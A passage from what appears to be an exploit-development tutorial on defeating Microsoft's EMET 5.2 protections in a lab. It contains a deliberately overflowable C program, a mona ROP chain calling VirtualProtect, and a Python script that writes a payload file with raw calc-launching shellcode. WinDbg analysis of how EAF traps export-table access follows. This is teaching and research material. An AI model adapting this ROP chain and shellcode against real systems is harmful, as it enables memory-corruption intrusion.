






The acronym EMET stands for Enhanced Mitigation Experience Toolkit. As of this writing, the latest version of EMET is 5.2 (download).
As always, we’ll be working on Windows 7 SP1 64-bit.
Warning
EMET 5.2 may conflict with some Firewall and AntiVirus software. For instance, I spent hours wondering why EMET would detect exploitation attempts even where there were none. Eventually, I found out that it was a conflict with Comodo Firewall. I had to uninstall it completely.
Good Firewalls are not common so I left Comodo Firewall alone and decided to work in a Virtual Machine (I use VirtualBox).
Protections
As the name suggests, EMET tries to mitigate the effects of exploits. It does this by introducing the following protections:
- Data Execution Prevention (DEP)
It stops the execution of instructions if they are located in areas of memory marked as no execute. - Structured Exception Handler Overwrite Protection (SEHOP)
It prevents exploitation techniques that aim at overwriting Windows Structured Exception Handler. - Null Page Protection (NullPage)
It pre-allocates the null page to prevent exploits from using it with malicious purpose. - Heap Spray Protection (HeapSpray)
It pre-allocates areas of memory the are commonly used by attackers to allocate malicious code.
(For instance, 0x0a040a04; 0x0a0a0a0a; 0x0b0b0b0b; 0x0c0c0c0c; 0x0d0d0d0d; 0x0e0e0e0e; 0x04040404; 0x05050505; 0x06060606; 0x07070707; 0x08080808; 0x09090909; 0x20202020; 0x14141414) - Export Address Table Access Filtering (EAF)
It regulates access to the Export Address Table (EAT) based on the calling code. - Export Address Table Access Filtering Plus (EAF+)
It blocks read attempts to export and import table addresses originating from modules commonly used to probe memory during the exploitation of memory corruption vulnerabilities. - Mandatory Address Space Layout Randomization (MandatoryASLR)
It randomizes the location where modules are loaded in memory, limiting the ability of an attacker to point to pre-determined memory addresses. - Bottom-Up Address Space Layout Randomization (BottomUpASLR)
It improves the MandatoryASLR mitigation by randomizing the base address of bottom-up allocations. - Load Library Protection (LoadLib)
It stops the loading of modules located in UNC paths (e.g. \\evilsite\bad.dll), common technique in Return Oriented Programming (ROP) attacks. - Memory Protection (MemProt)
It disallows marking execute memory areas on the stack, common technique in Return Oriented Programming (ROP) attacks. - ROP Caller Check (Caller)
It stops the execution of critical functions if they are reached via a RET instruction, common technique in Return Oriented Programming (ROP) attacks. - ROP Simulate Execution Flow (SimExecFlow)
It reproduces the execution flow after the return address, trying to detect Return Oriented Programming (ROP) attacks. - Stack Pivot (StackPivot)
It checks if the stack pointer is changed to point to attacker-controlled memory areas, common technique in Return Oriented Programming (ROP) attacks. - Attack Surface Reduction (ASR)
It prevents defined modules from being loaded in the address space of the protected process.
This sounds pretty intimidating, doesn’t it? But let’s not give up before we even start!
The program
To analyze EMET with ease is better to use one of our little C/C++ applications. We’re going to reuse exploitme3.cpp (article) but with some modifications:
#include <cstdio>
_declspec(noinline) int f() {
char name[32];
printf("Reading name from file...\n");
FILE *f = fopen("c:\\deleteme\\name.dat", "rb");
if (!f)
return -1;
fseek(f, 0L, SEEK_END);
long bytes = ftell(f);
fseek(f, 0L, SEEK_SET);
fread(name, 1, bytes, f);
name[bytes] = '\0';
fclose(f);
printf("Hi, %s!\n", name);
return 0;
}
int main() {
char moreStack[10000];
for (int i = 0; i < sizeof(moreStack); ++i)
moreStack[i] = i;
return f();
}The stack variable moreStack gives us more space on the stack. Remember that the stack grows towards low addresses whereas fread writes going towards high addresses. Without this additional space on the stack, fread might reach the end of the stack and crash the program.
The for loop in main is needed otherwise moreStack is optimized away. Also, if function f is inlined, the buffer name is allocated after moreStack (i.e. towards the end of the stack) which defeats the purpose. To avoid this, we need to use _declspec(noinline).
As we did before, we’ll need to disable stack cookies, but leave DEP on, by going to Project→properties, and modifying the configuration for Release as follows:
- Configuration Properties
- C/C++
- Code Generation
- Security Check: Disable Security Check (/GS-)
- Code Generation
- C/C++
Make sure that DEP is activated:
- Configuration Properties
- Linker
- Advanced
- Data Execution Prevention (DEP): Yes (/NXCOMPAT)
- Advanced
- Linker
ASLR considerations
We know that to beat ASLR we need some kind of info leak and in the next two chapters we’ll develop exploits for Internet Explorer 10 and 11 with ASLR enabled. But for now, let’s ignore ASLR and concentrate on DEP and ROP.
Our program exploitme3 uses the library msvcr120.dll. Unfortunately, every time the program is run, the library is loaded at a different address. We could build our ROP chain from system libraries (kernel32.dll, ntdll.dll, etc…), but that wouldn’t make much sense. We went to great lengths to build a reliable shellcode which gets the addresses of the API functions we want to call by looking them up in the Export Address Tables. If we were to hardcode the addresses of the gadgets taken from kernel32.dll and ntdll.dll then it’d make sense to hardcode the addresses of the API functions as well.
So, the right thing to do is to take our gadgets from msvcr120.dll. Unfortunately, while the base addresses of kernel32.dll and ntdll.dll change only when Windows is rebooted, as we’ve already said, the base address of msvcr120.dll changes whenever exploitme3 is run.
The difference between these two behaviors stems from the fact that kernel32.dll and ntdll.dll are already loaded in memory when exploitme3 is executed, whereas msvcr120.dll is not. Therefore, one solution is to run the following program:
#include <Windows.h>
#include <stdio.h>
#include <conio.h>
int main() {
printf("msvcr120 = %p\n", GetModuleHandle(L"msvcr120"));
printf("--- press any key ---\n");
_getch();
return 0;
}
As long as we don’t terminate this program, the base address of msvcr120.dll won’t change. When we run exploitme3, Windows will see that msvcr120.dll is already loaded in memory so it’ll simply map it in the address space of exploitme3. Moreover, msvcr120.dll will be mapped at the same address because it contains position-dependent code which wouldn’t work if placed at a different position.
Initial Exploit
Open EMET and click on the button Apps:

Now click on Add Application and choose exploitme3.exe:

You should see that exploitme3 has been added to the list:

Let’s start by disabling EAF, LoadLib, MemProt, Caller, SimExecFlow and StackPivot:
Press OK to confirm the settings.
{kind=link}
{kind=link}
{kind=link}
{kind=link}
Now let’s load exploitme3.exe in WinDbg (article) and use mona (article) to generate a rop chain for VirtualProtect:
.load pykd.pyd !py mona rop -m msvcr120
Here’s the ROP chain found in the file rop_chains.txt created by mona:
def create_rop_chain():
# rop chain generated with mona.py - www.corelan.be
rop_gadgets = [
0x7053fc6f, # POP EBP # RETN [MSVCR120.dll]
0x7053fc6f, # skip 4 bytes [MSVCR120.dll]
0x704f00f6, # POP EBX # RETN [MSVCR120.dll]
0x00000201, # 0x00000201-> ebx
0x704b6580, # POP EDX # RETN [MSVCR120.dll]
0x00000040, # 0x00000040-> edx
0x7049f8cb, # POP ECX # RETN [MSVCR120.dll]
0x705658f2, # &Writable location [MSVCR120.dll]
0x7048f95c, # POP EDI # RETN [MSVCR120.dll]
0x7048f607, # RETN (ROP NOP) [MSVCR120.dll]
0x704eb436, # POP ESI # RETN [MSVCR120.dll]
0x70493a17, # JMP [EAX] [MSVCR120.dll]
0x7053b8fb, # POP EAX # RETN [MSVCR120.dll]
0x705651a4, # ptr to &VirtualProtect() [IAT MSVCR120.dll]
0x7053b7f9, # PUSHAD # RETN [MSVCR120.dll]
0x704b7e5d, # ptr to 'call esp' [MSVCR120.dll]
]
return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
We’ve already seen how this chain works in the chapter Exploitme3 (DEP), so we won’t repeat ourselves. We’ll also take the script to generate the file name.dat from the same chapter and modify it as needed. This is the initial version:
import struct
# The signature of VirtualProtect is the following:
# BOOL WINAPI VirtualProtect(
# _In_ LPVOID lpAddress,
# _In_ SIZE_T dwSize,
# _In_ DWORD flNewProtect,
# _Out_ PDWORD lpflOldProtect
# );
# After PUSHAD is executed, the stack looks like this:
# .
# .
# .
# EDI (ptr to ROP NOP (RETN))
# ESI (ptr to JMP [EAX] (EAX = address of ptr to VirtualProtect))
# EBP (ptr to POP (skips EAX on the stack))
# ESP (lpAddress (automatic))
# EBX (dwSize)
# EDX (NewProtect (0x40 = PAGE_EXECUTE_READWRITE))
# ECX (lpOldProtect (ptr to writeable address))
# EAX (address of ptr to VirtualProtect)
# lpAddress:
# ptr to "call esp"
# <shellcode>
msvcr120 = 0x73c60000
# Delta used to fix the addresses based on the new base address of msvcr120.dll.
md = msvcr120 - 0x70480000
def create_rop_chain(code_size):
rop_gadgets = [
md + 0x7053fc6f, # POP EBP # RETN [MSVCR120.dll]
md + 0x7053fc6f, # skip 4 bytes [MSVCR120.dll]
md + 0x704f00f6, # POP EBX # RETN [MSVCR120.dll]
code_size, # code_size -> ebx
md + 0x704b6580, # POP EDX # RETN [MSVCR120.dll]
0x00000040, # 0x00000040-> edx
md + 0x7049f8cb, # POP ECX # RETN [MSVCR120.dll]
md + 0x705658f2, # &Writable location [MSVCR120.dll]
md + 0x7048f95c, # POP EDI # RETN [MSVCR120.dll]
md + 0x7048f607, # RETN (ROP NOP) [MSVCR120.dll]
md + 0x704eb436, # POP ESI # RETN [MSVCR120.dll]
md + 0x70493a17, # JMP [EAX] [MSVCR120.dll]
md + 0x7053b8fb, # POP EAX # RETN [MSVCR120.dll]
md + 0x705651a4, # ptr to &VirtualProtect() [IAT MSVCR120.dll]
md + 0x7053b7f9, # PUSHAD # RETN [MSVCR120.dll]
md + 0x704b7e5d, # ptr to 'call esp' [MSVCR120.dll]
]
return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
def write_file(file_path):
with open(file_path, 'wb') as f:
ret_eip = md + 0x7048f607 # RETN (ROP NOP) [MSVCR120.dll]
shellcode = (
"\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02" +
"\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa" +
"\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8" +
"\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02" +
"\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45" +
"\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6" +
"\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c" +
"\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0" +
"\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53" +
"\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45" +
"\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2" +
"\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b" +
"\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff" +
"\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0" +
"\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75" +
"\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d" +
"\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c" +
"\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24" +
"\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04" +
"\x30\x03\xc6\xeb\xdd")
code_size = len(shellcode)
name = 'a'*36 + struct.pack('<I', ret_eip) + create_rop_chain(code_size) + shellcode
f.write(name)
write_file(r'c:\deleteme\name.dat')Note that you need to assign to the variable msvcr120 the correct value. Remember to run and keep open the little program we talked about to stop msvcr120.dll from changing base address. That little program also tells us the current base address of msvcr120.dll.
Now run exploitme3.exe and the calculator will pop up!
EAF
Let’s enable EAF protection for exploitme3 and run exploitme3 again. This time EMET detects our exploit and closes exploitme3. The official description of EAF says that it
regulates access to the Export Address Table (EAT) based on the calling code.
As a side note, before debugging exploitme3.exe, make sure that exploitme3.pdb, which contains debugging information, is in the same directory as exploitme3.exe.
Let’s open exploitme3 in WinDbg (Ctrl+E), then put a breakpoint on main:
bp exploitme3!main
When we hit F5 (go), we get an odd exception:
(f74.c20): Single step exception - code 80000004 (first chance) First chance exceptions are reported before any exception handling. This exception may be expected and handled. eax=000bff98 ebx=76462a38 ecx=00000154 edx=763a0000 esi=7645ff70 edi=764614e8 eip=76ec01ae esp=003ef214 ebp=003ef290 iopl=0 nv up ei ng nz na pe cy cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00000287 ntdll!LdrpSnapThunk+0x1c1: 76ec01ae 03c2 add eax,edx
Here’s the code:
76ec018e ff7618 push dword ptr [esi+18h] 76ec0191 ff75e0 push dword ptr [ebp-20h] 76ec0194 e819020000 call ntdll!LdrpNameToOrdinal (76ec03b2) 76ec0199 8b55d8 mov edx,dword ptr [ebp-28h] 76ec019c 0fb7c0 movzx eax,ax 76ec019f 0fb7c8 movzx ecx,ax 76ec01a2 3b4e14 cmp ecx,dword ptr [esi+14h] 76ec01a5 0f83b6f60000 jae ntdll!LdrpSnapThunk+0x12b (76ecf861) 76ec01ab 8b461c mov eax,dword ptr [esi+1Ch] <---------------- this generated the exception 76ec01ae 03c2 add eax,edx <--------------------- we're here! 76ec01b0 8d0c88 lea ecx,[eax+ecx*4] 76ec01b3 8b01 mov eax,dword ptr [ecx] 76ec01b5 03c2 add eax,edx 76ec01b7 8b7d14 mov edi,dword ptr [ebp+14h] 76ec01ba 8907 mov dword ptr [edi],eax 76ec01bc 3bc6 cmp eax,esi 76ec01be 0f87ca990000 ja ntdll!LdrpSnapThunk+0x1d7 (76ec9b8e) 76ec01c4 833900 cmp dword ptr [ecx],0
A single step exception is a debugging exception. It’s likely that the exception was generated by the previous line of code:
76ec01ab 8b461c mov eax,dword ptr [esi+1Ch] <---------------- this generated the exception
Let’s see what esi points to:
0:000> ln @esi
(7645ff70) kernel32!$$VProc_ImageExportDirectory | (76480000) kernel32!BasepAllowResourceConversion
Exact matches:
kernel32!$$VProc_ImageExportDirectory = <no type information>It seems that esi points to kernel32‘s EAT! We can confirm that esi really points to the Export Directory (another name for EAT) this way:
0:000> !dh kernel32
File Type: DLL
FILE HEADER VALUES
14C machine (i386)
4 number of sections
53159A85 time date stamp Tue Mar 04 10:19:01 2014
0 file pointer to symbol table
0 number of symbols
E0 size of optional header
2102 characteristics
Executable
32 bit word machine
DLL
OPTIONAL HEADER VALUES
10B magic #
9.00 linker version
D0000 size of code
30000 size of initialized data
0 size of uninitialized data
13293 address of entry point
10000 base of code
----- new -----
763a0000 image base
10000 section alignment
10000 file alignment
3 subsystem (Windows CUI)
6.01 operating system version
6.01 image version
6.01 subsystem version
110000 size of image
10000 size of headers
1105AE checksum
00040000 size of stack reserve
00001000 size of stack commit
00100000 size of heap reserve
00001000 size of heap commit
140 DLL characteristics
Dynamic base
NX compatible
BFF70 [ A9B1] address [size] of Export Directory <----------------------------------
CA924 [ 1F4] address [size] of Import Directory
F0000 [ 528] address [size] of Resource Directory
0 [ 0] address [size] of Exception Directory
0 [ 0] address [size] of Security Directory
100000 [ AD9C] address [size] of Base Relocation Directory
D0734 [ 38] address [size] of Debug Directory
0 [ 0] address [size] of Description Directory
0 [ 0] address [size] of Special Directory
0 [ 0] address [size] of Thread Storage Directory
83510 [ 40] address [size] of Load Configuration Directory
0 [ 0] address [size] of Bound Import Directory
10000 [ DF0] address [size] of Import Address Table Directory
0 [ 0] address [size] of Delay Import Directory
0 [ 0] address [size] of COR20 Header Directory
0 [ 0] address [size] of Reserved Directory
SECTION HEADER #1
.text name
C0796 virtual size
10000 virtual address
D0000 size of raw data
10000 file pointer to raw data
0 file pointer to relocation table
0 file pointer to line numbers
0 number of relocations
0 number of line numbers
60000020 flags
Code
(no align specified)
Execute Read
Debug Directories(2)
Type Size Address Pointer
cv 26 d0770 d0770 Format: RSDS, guid, 2, wkernel32.pdb
( 10) 4 d076c d076c
SECTION HEADER #2
.data name
100C virtual size
E0000 virtual address
10000 size of raw data
E0000 file pointer to raw data
0 file pointer to relocation table
0 file pointer to line numbers
0 number of relocations
0 number of line numbers
C0000040 flags
Initialized Data
(no align specified)
Read Write
SECTION HEADER #3
.rsrc name
528 virtual size
F0000 virtual address
10000 size of raw data
F0000 file pointer to raw data
0 file pointer to relocation table
0 file pointer to line numbers
0 number of relocations
0 number of line numbers
40000040 flags
Initialized Data
(no align specified)
Read Only
SECTION HEADER #4
.reloc name
AD9C virtual size
100000 virtual address
10000 size of raw data
100000 file pointer to raw data
0 file pointer to relocation table
0 file pointer to line numbers
0 number of relocations
0 number of line numbers
42000040 flags
Initialized Data
Discardable
(no align specified)
Read OnlyWe can see that esi points indeed to the Export Directory:
0:000> ? @esi == kernel32 + bff70 Evaluate expression: 1 = 00000001 (1 means True)
The instruction which generated the exception accessed the Export Directory at offset 0x1c. Let’s see what there is at that offset by having a look at the file winnt.h:
typedef struct _IMAGE_EXPORT_DIRECTORY {
DWORD Characteristics; // 0
DWORD TimeDateStamp; // 4
WORD MajorVersion; // 8
WORD MinorVersion; // 0xa
DWORD Name; // 0xc
DWORD Base; // 0x10
DWORD NumberOfFunctions; // 0x14
DWORD NumberOfNames; // 0x18
DWORD AddressOfFunctions; // 0x1c <----------------------
DWORD AddressOfNames; // 0x20
DWORD AddressOfNameOrdinals; // 0x24
} IMAGE_EXPORT_DIRECTORY, *PIMAGE_EXPORT_DIRECTORY;
In the chapter Shellcode we saw that AddressOfFunctions is the RVA of an array containing the RVAs of the exported functions.
By looking at the stack trace we realize that we’re in the function GetProcAddress:
0:000> k 10 ChildEBP RetAddr 003ef290 76ec032a ntdll!LdrpSnapThunk+0x1c1 003ef34c 76ec0202 ntdll!LdrGetProcedureAddressEx+0x1ca 003ef368 76261e59 ntdll!LdrGetProcedureAddress+0x18 003ef390 73c8d45e KERNELBASE!GetProcAddress+0x44 <------------------------ 003ef3a4 73c8ca0d MSVCR120!__crtLoadWinApiPointers+0x1d [f:\dd\vctools\crt\crtw32\misc\winapisupp.c @ 752] 003ef3a8 73c8ca91 MSVCR120!_mtinit+0x5 [f:\dd\vctools\crt\crtw32\startup\tidtable.c @ 97] 003ef3d8 73c71a5f MSVCR120!__CRTDLL_INIT+0x2f [f:\dd\vctools\crt\crtw32\dllstuff\crtlib.c @ 235] 003ef3ec 76ec99a0 MSVCR120!_CRTDLL_INIT+0x1c [f:\dd\vctools\crt\crtw32\dllstuff\crtlib.c @ 214] 003ef40c 76ecd939 ntdll!LdrpCallInitRoutine+0x14 003ef500 76ed686c ntdll!LdrpRunInitializeRoutines+0x26f 003ef680 76ed5326 ntdll!LdrpInitializeProcess+0x1400 003ef6d0 76ec9ef9 ntdll!_LdrpInitialize+0x78 003ef6e0 00000000 ntdll!LdrInitializeThunk+0x10
Since it’s the first time we’ve seen such an exception, it must be EMET’s doing. It seems that EMET’s EAF intercepts any accesses to the field AddressOfFunctions of some Export Directories. Which ones? And how does it do that?
In WinDbg, we could do such a thing by using ba, which relies on hardware breakpoints, so EMET must be using the same method. Let’s have a look at the debug registers:
0:000> rM 20 dr0=76ea0204 dr1=7645ff8c dr2=7628b85c dr3=00000000 dr6=ffff0ff2 dr7=0fff0115 ntdll!LdrpSnapThunk+0x1c1: 76ec01ae 03c2 add eax,edx
(When you don’t know a command, look it up with .hh.)
The value in dr1 looks familiar:
0:000> ? @dr1 == esi+1c Evaluate expression: 1 = 00000001
Perfect match!
Debug Registers
Let’s be honest here: there’s no need to learn the format of the debug registers. It’s pretty clear that in our case dr0, dr1 and dr2 contain the addresses where the hardware breakpoints are. Let’s see where they point (we’ve already looked at dr1):
0:000> ln dr0 (76ea01e8) ntdll!$$VProc_ImageExportDirectory+0x1c | (76eaf8a0) ntdll!NtMapUserPhysicalPagesScatter 0:000> ln dr1 (7645ff70) kernel32!$$VProc_ImageExportDirectory+0x1c | (76480000) kernel32!BasepAllowResourceConversion 0:000> ln dr2 (76288cb0) KERNELBASE!_NULL_IMPORT_DESCRIPTOR+0x2bac | (76291000) KERNELBASE!KernelBaseGlobalData
The first two points to the Export Directories of ntdll and kernel32 respectively, while the third one looks different. Let’s see:
0:000> !dh kernelbase
File Type: DLL
FILE HEADER VALUES
14C machine (i386)
4 number of sections
53159A86 time date stamp Tue Mar 04 10:19:02 2014
0 file pointer to symbol table
0 number of symbols
E0 size of optional header
2102 characteristics
Executable
32 bit word machine
DLL
OPTIONAL HEADER VALUES
10B magic #
9.00 linker version
3F800 size of code
4400 size of initialized data
0 size of uninitialized data
74C1 address of entry point
1000 base of code
----- new -----
76250000 image base
1000 section alignment
200 file alignment
3 subsystem (Windows CUI)
6.01 operating system version
6.01 image version
6.01 subsystem version
47000 size of image
400 size of headers
49E52 checksum
00040000 size of stack reserve
00001000 size of stack commit
00100000 size of heap reserve
00001000 size of heap commit
140 DLL characteristics
Dynamic base
NX compatible
3B840 [ 4F19] address [size] of Export Directory <-------------------------
38C9C [ 28] address [size] of Import Directory
43000 [ 530] address [size] of Resource Directory
0 [ 0] address [size] of Exception Directory
0 [ 0] address [size] of Security Directory
44000 [ 25F0] address [size] of Base Relocation Directory
1660 [ 1C] address [size] of Debug Directory
0 [ 0] address [size] of Description Directory
0 [ 0] address [size] of Special Directory
0 [ 0] address [size] of Thread Storage Directory
69D0 [ 40] address [size] of Load Configuration Directory
0 [ 0] address [size] of Bound Import Directory
1000 [ 654] address [size] of Import Address Table Directory
